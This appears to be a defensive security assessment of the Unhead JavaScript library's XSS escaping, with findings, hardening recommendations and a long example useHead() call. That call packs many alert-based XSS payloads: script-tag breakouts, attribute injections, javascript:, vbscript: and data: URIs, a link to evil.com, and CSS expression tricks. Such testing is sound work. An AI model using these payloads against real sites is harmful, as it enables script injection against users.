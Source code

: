 # Unhead Security Research Report

## Executive Summary

This report documents an assessment of Unhead's security measures against Cross-Site Scripting (XSS) vulnerabilities. Unhead is a framework-agnostic head management library for managing HTML head tags, making it a critical component in the security posture of web applications that use it.

## Methodology

- Code analysis of XSS prevention mechanisms
- Review of existing XSS test coverage
- Identification of potential attack vectors

## Findings

### XSS Protection Mechanisms

Unhead implements several security measures to prevent XSS:

1. **HTML Escaping**: The library uses the `escapeHtml` function in `tagToString.ts` which properly escapes the following characters:
   - `&` → `&amp;`
   - `<` → `&lt;`
   - `>` → `&gt;`
   - `"` → `&quot;`
   - `'` → `&#x27;`
   - `/` → `&#x2F;`

2. **Attribute Encoding**: The `encodeAttribute` function in `propsToString.ts` escapes double quotes in attribute values using `&quot;`.

3. **Content Type Handling**: Different encoding is applied based on content type:
   - `textContent` is properly escaped to prevent XSS
   - `innerHTML` is intentionally not escaped (dangerous but documented)

### Potential Vulnerabilities

1. **innerHTML Handling**: The code explicitly notes that innerHTML is "dangerously" used without encoding. This is a deliberate design choice to allow HTML in certain contexts, but creates a potential attack vector if user input is directly passed to innerHTML.

2. **Script Content**: When using script tags, the code properly handles the potential injection of `</script>` tags by using the `devalue` library, which correctly escapes such content.

3. **Attribute Escaping**: While double quotes are escaped in attribute values, the encoding is limited compared to the more comprehensive `escapeHtml` function. This might present edge cases in certain browser contexts.

4. **JSON Content**: Special attention is given to JSON content in script tags, with proper escaping via the `devalue` library.

## Attack Vectors to Explore

1. **Contextual Bypasses**: Test if escaping works in all contexts (HTML, attributes, JavaScript, CSS, URL)
2. **DOM-based XSS**: Examine client-side rendering for potential DOM XSS vectors
3. **Template Injection**: Test handling of complex template variables and expressions
4. **Script Execution**: Test script loading mechanisms and event handling
5. **Sanitization Bypass**: Attempt to bypass the escaping mechanisms

## Recommendations

1. **innerHTML Usage**: Consider adding a sanitization option for innerHTML content
2. **Attribute Encoding**: Enhance the attribute encoding to match the more comprehensive HTML encoding
3. **Additional Test Coverage**: Expand test coverage for edge cases and exotic payloads
4. **User Documentation**: Clearly document security best practices for users of the library
5. **URL Sanitization**: Implement sanitization for potentially dangerous URL schemas like javascript:, data:, and vbscript:
6. **Meta Tag Content**: Add proper content sanitization for meta tags to prevent SVG-based and other XSS payloads
7. **CSS Protection**: Consider sanitizing style content to prevent CSS-based attacks

## Comprehensive XSS Example

```js
// Example of a useHead() call that attempts to exploit multiple XSS vectors
useHead({
  // Title injection
  title: '</title><script>alert("title XSS")</script>',
  titleTemplate: '%s - <script>alert("template")</script>',

  // Meta tag vectors
  meta: [
    // SVG-based XSS
    { name: 'description', content: '<svg><script>alert("svg")</script></svg>' },
    // Attribute injection
    { name: 'keywords" onload="alert("attr")', content: 'SEO keywords' },
    // Unicode escape sequence
    { name: 'author', content: '\\u003Cscript\\u003Ealert("unicode")\\u003C/script\\u003E' },
    // Character encoding attack
    { 'http-equiv': 'content-type', 'content': 'text/html; charset=UTF-7; X-XSS-Protection: "0";' },
    // Case variation bypass
    { name: 'viewport', content: '<ScRiPt>alert("case")</ScRiPt>' },
    // Emoji obfuscation
    { name: 'robots', content: '📝➡️<script>alert("emoji")</script>' },
    // innerHTML attempt (shouldn't work)
    { name: 'generator', innerHTML: '<script>alert("meta-inner")</script>' }
  ],

  // Link attacks
  link: [
    // Javascript protocol
    { rel: 'stylesheet', href: 'javascript:alert("js-protocol")' },
    // Data URI
    { rel: 'icon', href: 'data:text/html;base64,PHNjcmlwdD5hbGVydCgieHNzIik8L3NjcmlwdD4=' },
    // Protocol switching
    { rel: 'dns-prefetch', href: '//evil.com/xss.js' },
    // HTML-encoded colon
    { rel: 'preconnect', href: 'javascript&#58;alert("encoded")' },
    // Other protocol
    { rel: 'prefetch', href: 'vbscript:alert("vbscript")' }
  ],

  // Script attacks
  script: [
    // Template literal with closing script
    { innerHTML: `
      const template = \`
        </script>
        <img src=x onerror="alert('template-literal')">
        <script>
      \`;
      console.log(template);
    ` },
    // Null byte insertion
    { innerHTML: `console.log("Null byte attack: \\0')</script><script>alert('null-byte')</script>")` },
    // String concatenation bypass
    { innerHTML: `console.log("</scr"+"ipt><script>alert('concat')</script>")` },
    // mXSS payload
    { innerHTML: `var xss = '<img src="1" onerror="alert(\\'mxss\\')" />';` },
    // JSON with devalue (should be properly escaped)
    { type: 'application/json', innerHTML: JSON.stringify({ payload: '</script><script>alert("json")</script>' }) }
  ],

  // Style attacks
  style: [
    // CSS expression
    { innerHTML: `body { color: expression(alert('css-expression')) }` },
    // CSS url injection
    { innerHTML: `body { background: url('javascript:alert("css-url")') }` }
  ],

  // HTML attributes
  htmlAttrs: {
    'onload': 'alert("html-event")',
    'data-attr': '"><script>alert("html-attr")</script>'
  },

  // Body attributes
  bodyAttrs: {
    'data-custom': `x" onmouseover="alert('body-attr')" data-x="`
  },

  // Base attack
  base: { href: 'javascript:alert("base")' }
})
```

## Next Steps

Further testing required:
- Dynamic content insertion
- Framework-specific integration points
- Client-side rendering security
- Event handler sanitization

---

*This is an initial security assessment and should be followed by comprehensive penetration testing.*
